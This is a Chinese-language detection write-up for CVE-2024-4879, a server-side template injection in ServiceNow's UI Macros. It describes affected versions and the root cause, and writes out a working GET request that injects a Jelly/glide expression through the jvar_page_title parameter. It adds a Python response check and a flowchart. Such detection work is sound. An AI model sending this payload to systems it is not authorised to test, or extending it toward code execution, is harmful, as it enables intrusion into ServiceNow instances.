 # ServiceNow UI Macros SSTI远程代码执行漏洞（CVE-2024-4879）检测说明

## 漏洞简介

ServiceNow Vancouver 和 Washington DC Now Platform 版本存在服务端模板注入（SSTI）漏洞。攻击者可通过特定参数注入恶意模板表达式，最终实现远程代码执行，危及平台数据安全。

## 影响范围

- 产品：ServiceNow Now Platform
- 影响版本：Vancouver、Washington DC 及相关版本
- CVE编号：CVE-2024-4879
- 危害等级：Critical

## 漏洞原理

ServiceNow的UI宏处理逻辑未对输入进行有效校验，攻击者可通过jvar_page_title参数注入Jelly模板表达式，利用glide API执行任意代码。

## 利用方式与攻击流程

1. 攻击者构造带有SSTI payload的GET请求，jvar_page_title参数注入Jelly模板表达式。
2. 服务器端未对参数进行安全处理，直接渲染模板。
3. 模板引擎执行恶意表达式，触发命令执行（如计算1337*1337）。
4. 响应体返回特定结果，攻击者据此判断漏洞是否存在。

## 探测原理与流程

### 探测请求的构造

```http
GET /login.do?jvar_page_title=<style><j:jelly xmlns:j="jelly" xmlns:g='glide'><g:evaluate>gs.addErrorMessage(1337*1337);</g:evaluate></j:jelly></style> HTTP/1.1
Host: target.com
```

- jvar_page_title参数注入Jelly模板表达式，尝试让平台输出计算结果。

### 预期响应与交互

- 响应体需包含`<div class="outputmsg_text">1787569</div>`（1337*1337的结果）。
- 响应头包含`text/html`。
- HTTP状态码为200。

### 判定逻辑

```python
def is_vulnerable(response):
    if response.status_code == 200 and '<div class="outputmsg_text">1787569</div>' in response.text and 'text/html' in response.headers.get('content-type', ''):
        return True
    return False
```

### 检测流程Mermaid图

```mermaid
graph TD
    A[发送带SSTI payload的GET请求] --> B[接收HTTP响应]
    B --> C{响应体含1787569?}
    C -- 否 --> F[非漏洞]
    C -- 是 --> D{Content-Type为text/html且状态码为200?}
    D -- 否 --> F
    D -- 是 --> G[判定存在SSTI漏洞]
```

## 参考链接

- [Assetnote分析](https://www.assetnote.io/resources/research/chaining-three-bugs-to-access-all-your-servicenow-data)
- [ServiceNow官方通告1](https://support.servicenow.com/kb?id=kb_article_view&sysparm_article=KB1644293)
- [ServiceNow官方通告2](https://support.servicenow.com/kb?id=kb_article_view&sysparm_article=KB1645154)
- [NVD官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2024-4879) 